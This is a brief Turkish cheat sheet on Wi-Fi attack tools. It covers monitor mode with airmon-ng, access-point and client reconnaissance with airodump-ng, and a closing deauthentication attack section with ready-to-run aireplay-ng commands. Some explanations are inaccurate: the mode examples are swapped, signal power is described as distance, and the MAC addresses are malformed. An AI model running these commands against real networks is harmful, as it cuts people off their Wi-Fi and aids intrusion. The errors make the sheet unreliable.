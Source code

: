- **🖥️ İfconfig** : Mevcut internet bağlantıları ile ilgili detaylı bilgi verir.
- **📶 İwconfig** : Mevcut Wİ-Fİ bağlantıları ile ilgili detaylı bilgi verir.
---
- **🛠️ airmon-ng (start/stop) (interface)**
	- ***📡 Managed Mode*** Wİ-Fİ adaptörünün varsayılan internete bağlanma modu. 
		- airmon-ng start wlan0
	- ***🎯 Monitor Mode*** ise Wİ-Fİ adaptörünün bilgi toplama modudur. 
		- airmon-ng stop wlan0mon 
---
- **🔍 airodump-ng (interface)**
	- Etraftaki modemler hakkında bilgi toplar.
	- ***🆔 BSSID*** : Modemin MAC adresi.
	- ***📉 PWR*** : Modemin Wİ-Fİ adaptörüne uzaklığı.
	- ***📡 CH*** : Modemin kullanıldığı kanal.
	- ***🔐 ENC*** : Modemin şifrelenme türü.
	- ***🏷️ ESSID*** : Modem adı.
---
- **📄 airodump-ng --channel ... -bssid ... -write ... (interface)**
	- örneğin *airodump-ng --channel 12 --bssid 40:30:20:10 --write txt wlan0mon*
	- Hedeflenen modem ile ilgili detaylı bilgi toplar.
	- ***🆔 BSSID*** : Modemin MAC adresi.
	- ***👥 STATION*** : Modeme bağlı cihazların MAC adresi.
	- ***📦 Frames*** : Cihazların internette harcadığı paket sayısı.
---
### 🚫 DEAUTHENTICATION SALDIRISI
- **📤 aireplay-ng --deauth (paket sayısı) -a (modem MAC) -c (cihaz MAC) (interface)**
	- *aireplay-ng --deauth 1000 -a 40:30:20:10 -c 10:20:30:40 wlan0mon*
- **📤 aireplay-ng --deauth (paket sayısı) -a (modem MAC) (interface)**
	- *aireplay-ng --deauth 1000 -a 40:30:20:10 wlan0mon*
